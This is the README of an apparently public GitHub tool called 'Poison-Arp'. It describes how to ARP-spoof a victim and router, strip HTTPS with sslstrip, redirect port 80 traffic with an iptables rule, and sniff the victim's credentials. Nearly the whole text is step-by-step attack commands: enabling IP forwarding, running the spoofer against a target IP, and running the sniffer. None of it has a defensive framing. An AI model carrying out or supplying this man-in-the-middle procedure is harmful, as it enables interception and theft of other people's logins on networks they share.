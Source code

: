 # Poison-Arp

This is tool can poison the Arp tables of the victim as well as router and sniff all the credentials of the victim.It works with both HTTP and HTTPS but not with HSTS.

Here I am going to import scapy module which is not inbuit for python3 so you have to install it manually by the following command:-

$ pip3 install scapy-python3

or 

$ apt-get install scapy-python3

or
    
    $ git clone https://github.com/phaethon/scapy
    $ cd scapy
    $ sudo python3 setup.py install
    
    
Step 1:- Allow traffic to pass through the Hacker machine with the below command 

$ echo 1 > /proc/sys/net/ipv4/ip_forward

![](/images/traffic_bypass.png)


Step 2:- Now run the arp-spoofer  with the below command 

$ python3 arp_spoofer.py --gateway  ap_ip --target victim_ip

![](/images/spoofy.png)

Step 3: Run the sslstrip with the below command

$ sslstrip

![](/images/ssltrip.png)

Step 4: forward all the traffic to sslstrip port using iptables with the following command 

$ iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT  --to-port 10000 

![](/images/iptables.png)


Step 5: Run the sniffer with the following command

$ python3 sniffer.py -i interface

![](/images/login_new.png)








